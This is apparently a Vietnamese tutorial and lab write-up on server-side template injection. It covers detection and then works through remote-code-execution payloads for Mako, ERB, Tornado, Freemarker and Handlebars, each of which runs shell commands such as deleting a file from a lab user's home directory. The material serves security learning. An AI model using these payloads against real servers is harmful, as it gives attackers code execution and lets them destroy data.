









# Server-side template injection (SSTI)

## **SSTI là gì?**

- Server-side template injection (SSTI) là khi kẻ tấn công có thể biết ngôn ngữ gốc của web và thực hiện inject payload sau đó được thực thi bên phía máy chủ.

- Các cuộc tấn công SSTI được xảy ra khi đầu vào được chèn trực tiếp vào template, thay vì được chuyển dưới dạng dữ liệu.

## **SSTI phát sinh như thế nào?**

- Các template chỉ đơn giản là các chuỗi, các nhà phát triển web đôi khi trực tiếp truyền input của người dùng vào các template trước khi render.
- Hãy lấy một ví dụ người dùng có thể tùy chỉnh các phần của email trước khi gửi. Ví dụ: họ có thể chọn tên được sử dụng:

```
$output = $twig->render("Dear " . $_GET['name']);
```

- Điều này cho phép kẻ tấn có thể tấn công như sau:

```
http://vulnerable-website.com/?name={{bad-stuff-here}}
```

## **Xây dựng cuộc tấn công Server-side template injection**



### **Detect**

- Để phát hiện lỗ hổng, một cách đơn giản nhất là chúng ta thử các kí tự đặc biệt: `${{<%[%'"}}%\`

> **Plaintext context**

- Hầu hết các ngôn ngữ đều hỗ trợ ngữ cảnh 'văn bản' dạng tự do nơi bạn có thể nhập trực tiếp HTML. Nó thường sẽ xuất hiện theo một trong các cách sau:

```js
smarty=Hello {user.name}
Hello user1 
```

```js
smarty=Hello ${7*7}
Hello 49

freemarker=Hello ${7*7}
Hello 49
```

> **Code context**

- Đầu vào của người dùng cũng có thể được đặt trong một câu lệnh template, thường là tên biến:

```js
personal_greeting=username
Hello user01 
```

- Các biến thể này thậm chí còn dễ bị bỏ sót hơn trong quá trình đánh giá. Chúng ta có thể phát hiện như sau:

```js
personal_greeting=username<tag>
Hello 

personal_greeting=username}}<tag>
Hello user01 <tag> 
```

### **Identify**

- Sau khi phát hiện template injection, bước tiếp theo là xác định ngôn ngữ và template đang sử dụng.
- Chúng ta có thể tự động hóa việc này trong Burpsuite.



### **Exploit**

> **Read**

- Bước đầu tiên sau khi tìm kiếm template injection và xác định công cụ template là đọc tài liệu.
- Không nên đánh giá thấp tầm quan trọng của bước này, một trong những khai thác theo dõi zeroday được bắt nguồn hoàn toàn từ việc nghiên cứu kỹ tài liệu.
- Các tài liệu quan tâm chính là:
  - Cú pháp
  - Danh sách phương thức, hàm, bộ lọc
  - Các extensions/plugins

> **Explore**

- Giả sử không tìm thấy cách khai thác nào, thì chúng ta nên khám phá môi trường để tìm ra chính xác những gì bạn có quyền truy cập,

> **Attack**

- Tại thời điểm này, bạn nên có ý tưởng chắc chắn về bề mặt tấn công có sẵn cho mình và có thể tiến hành các kỹ thuật kiểm tra bảo mật truyền thống, xem xét từng chức năng để tìm các lỗ hổng có thể khai thác.
- Điều quan trọng là phải tiếp cận điều này trong ngữ cảnh của ứng dụng rộng hơn - một số chức năng có thể được sử dụng để khai thác các tính năng dành riêng cho ứng dụng.

## **LAB Server-side template injection**

### **Learn the basic template syntax**

- Học cú pháp cơ bản, rõ ràng là quan trọng, cùng với các chức năng chính và xử lý các biến.
- Ngay cả những việc đơn giản như học cách nhúng các block code gốc vào template đôi khi cũng có thể nhanh chóng dẫn đến việc khai thác.
- Ví dụ: khi bạn biết rằng công cụ template Mako dựa trên Python đang được sử dụng, việc thực thi mã từ xa có thể đơn giản như sau:

```
<%
    import os
    x=os.popen('id').read()
    %>
    ${x}
```

> **Lab: Basic server-side template injection**

- Phòng thí nghiệm này dễ bị template injection do cấu trúc template ERB không an toàn.
- Để giải quyết vấn đề này, hãy xem tài liệu ERB để tìm hiểu cách thực thi mã tùy ý, sau đó xóa tệp Morale.txt khỏi thư mục chính Carlos.


- Khi tôi thực hiện truy cập vào sản phẩm `There is No 'I' in Team` thì nó hiện tin nhắn `Unfortunately this product is out of stock`



- Sau khi tôi đọc tài liệu về [ERB Document](https://docs.ruby-lang.org/en/2.3.0/ERB.html), nó được code bằng Ruby. Tôi đã thử một số thử nghiệm.



- Từ đấy, ta biết được chúng ta có thể thực hiện tấn công SSTI.
- Tôi đã thử tìm làm thế nào có thể thực thi lệnh trong hệ điều hành bằng Ruby. Và tôi đã hoàn thành được yêu cầu bài toán.

```
<%= system("rm /home/carlos/morale.txt") %>
```

> **Lab: Basic server-side template injection (code context)**

- Để giải quyết vấn đề trong phòng thí nghiệm, hãy xem lại tài liệu Tornado để khám phá cách thực thi mã tùy ý, sau đó xóa tệp Morale.txt khỏi thư mục chính của Carlos.

- Ở trang website có chức năng `Preferred name`. Chức năng này có tác dụng chọn lựa tên yêu thích khi bạn bình luận trên sản phẩm, bình luận của bạn sẽ hiện tên yêu thích đó.



- Sau khi đọc về [tài liệu Tornado](https://www.tornadoweb.org/en/stable/template.html), tôi đã thử tấn công template injection.

```

{{os.system('rm /home/carlos/morale.txt')
```

> **Lab: Server-side template injection using documentation**

- Để giải quyết vấn đề trong phòng thí nghiệm, hãy xác định công cụ template và sử dụng tài liệu để tìm ra cách thực thi mã tùy ý, sau đó xóa tệp Morale.txt khỏi thư mục chính của Carlos.

- Sau khi đăng nhập vào tài khoản, chúng ta thấy có chức năng edit templates như sau:



- Ta thấy nó đã sử dụng template `<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.</p>`

- Sau khi tìm hiểu, tôi biết trang web đã được sử dụng `Freemarker - Basic injection` ([Freemarker](https://freemarker.apache.org/docs/dgui_datamodel_types.html))



- Tôi đã thử một số injection như sau:
  - Default: `${3*3}`
  - Legacy: `#{3*3}`
  - Alternative: `[=3*3]`


- Sau khi tìm hiểu, tôi có thể thực thi lệnh như sau:

`<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm /home/carlos/morale.txt")}`



> **Lab: Server-side template injection in an unknown language with a documented exploit**

- Để giải quyết phòng thí nghiệm, xác định công cụ template và tìm cách khai thác được ghi lại trực tuyến mà bạn có thể sử dụng để thực thi mã tùy ý, sau đó xóa tệp Morale.txt khỏi thư mục chính của Carlos

- Khi tôi injection một template không hợp lệ nó sẽ hiện thông báo lỗi và từ đó tôi biết trang web sử dụng tempplate nào.



- Trang web đã dùng `node_modules/handlebars`

- Tôi đã đọc một bài blog sau [**Blog**](http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)

```js
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```
